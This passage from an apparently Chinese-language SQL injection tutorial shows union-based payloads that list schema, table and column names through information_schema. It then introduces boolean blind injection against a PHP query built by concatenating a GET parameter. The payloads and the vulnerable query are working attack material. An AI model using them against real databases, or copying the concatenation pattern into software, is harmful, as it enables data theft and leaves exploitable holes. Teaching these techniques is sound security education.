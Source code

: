 ```sql
SELECT * FROM users WHERE username='-1' or '1'='1' union SELECT 1,schema_name,2 FROM information_schema.schemata;-- ' AND password='$password';
```

* 表名

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(table_name),2 from information_schema.tables where table_schema=database()-- ' AND password='$password';
```

* 字段名

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' union select 1,group_concat(column_name),2 from information_schema.columns where table_schema=database()-- ' AND password='$password';
```

## 盲注

盲注是指攻击者不能直接获取数据库中的信息，需要通过一些技巧来判断或推断出数据库中的数据。盲注主要分为布尔盲注和时间盲注两种。

我们还是以下面的句子为例子，不过相比于之前的不同，我们规定用户的查询没有回显，所以仅靠上面的方式我们无法获得数据，所以我们选用盲注。

```php
$sql = "SELECT username,password FROM users WHERE id = ".$_GET["id"];
```

### 布尔盲注

对于上述语句，如果id的传参如下：

```sql
id = 1 AND 1=1
```

那么语句执行为：

```sql
SELECT username,password FROM users WHERE id = 1 AND 1=1;
```

![image-20230504191135714](https://nssctf.wdf.ink/img/WDTJ/202305041911785.png)

这里会要求两个条件为真，一是有`id=1`这个值，二是 `1=1`，这两个条件当然是满足的，特别是后面的这个条件。

那如果我让AND后面的条件为 `1 = 2`：

```sql
SELECT username,password FROM users WHERE id = 1 AND '1'='2';
# 这里 '1' = '2'，1 = 2 效果都是一样的
```

![image-20230504191548610](https://nssctf.wdf.ink/img/WDTJ/202305041915652.png)

可以看到返回为空，因为AND后面的条件不满足。

那么利用这个AND符号我们可以尝试下面的一些方式来获取信息：
